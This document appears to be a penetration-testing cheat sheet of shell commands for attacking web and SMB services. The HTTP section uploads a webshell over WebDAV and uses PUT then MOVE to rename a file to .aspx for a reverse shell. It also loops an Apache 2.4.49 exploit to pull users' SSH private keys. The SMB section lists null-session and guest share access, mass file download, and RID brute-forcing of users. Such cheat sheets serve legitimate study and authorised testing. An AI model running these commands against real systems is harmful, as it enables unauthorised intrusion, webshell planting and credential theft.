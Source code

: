 #### HTTP(S)
```shell
# WEB DAV
davtest --url http://x.x.x.x

# to interact with webdav server
cadaver http://<IP>/<webdavpath>
dav> put /usr/share/webshells/asp/webshell.asp

# or manually
# let's suppose only html file is allowed in webdav using PUT method
curl -X PUT http://10.10.10.15/test.html -d @test.html
# we can PUT and then use MOVE method to rename the file extension to aspx, php or any exe to get revshell
curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'
# to verify
curl http://10.10.10.15/test.aspx


nikto http://website.com

# to list http headers only
curl -I http://website.com

openssl s_client -connect $ip:443


# apache http 2.4.49 exploit
for i in {'user2','user1','user2','user3'};do echo "extracting $i"; ./apache2.4.49.sh webtargets.txt "/home/$i/.ssh/id_ecdsa"; done
# check every id file
```
#### SMB
```shell
# SMB & netbios enumeration
sudo nbtscan -r 192.168.50.0/24  # it enumerates netbios name service runs on 137
nmap -p 445 --script smb* <target>
enum4linux -a <target>
enum4linux -u 'domain/user' -p 'pass' -a <target>
smbclient -L //<target> -N
smbclient -L //<target> -U <username>%<password>
smbclient //<target>/<sharename> -U <username>
smbmap -H <target> -u <user> -p <pass> -R

for ip in $(cat smbhosts.txt);do enum4linux -U $ip >> enum4.out;done


smbclient > prompt off
smbclient > recurse on
smbclient > mget *


nxc smb <iprange>  # only search for windows machine
nxc smb <ipraneg> -u '' -p '' --shares # to look for null session
nxc smb <iprange> -u 'guest' -p '' --shares

nxc smb <ip> -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True # to download all the file from smb shares
nxc smb <ip> -u 'user' -p 'pass'  --user # try enumerate thru guest user and null session

nxc smb <ip> -u 'user' -p 'pass' --rid-brute # to enumerate users using rid bruteforcing
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol # domain pass policy
```